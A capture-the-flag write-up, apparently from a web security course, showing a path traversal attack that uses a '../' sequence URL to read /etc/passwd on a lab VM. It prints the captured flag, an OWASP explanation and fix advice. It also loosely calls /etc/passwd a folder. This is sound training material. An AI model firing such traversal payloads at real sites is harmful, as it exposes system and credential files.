 # Include

All websites running on UNIX contain a folder `/etc/passwd` which contains the attributes of each user/account on a Linux or another Unix-like operating system.

By adding `/?page=../` to our url and using the displayed indices we can go back to the `/etc/passwd`.

Path: <http://[VM_IP]/?page=../../../../../../../etc/passwd>

```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```

## Explanation

Attack type: [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

> A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. 

## How to fix it

1) Do not use user input when using file system calls
2) Use indexes rather than actual portions of file names when templating or using language files
3) Ensure the user cannot supply all parts of the path – surround it with your path code
4) Validate the user’s input by only accepting known good – do not sanitize the data
5) Use chrooted jails and code access policies to restrict where the files can be obtained or saved to
6) If forced to use user input for file operations, normalize the input before using in file io API’s, such as normalize().
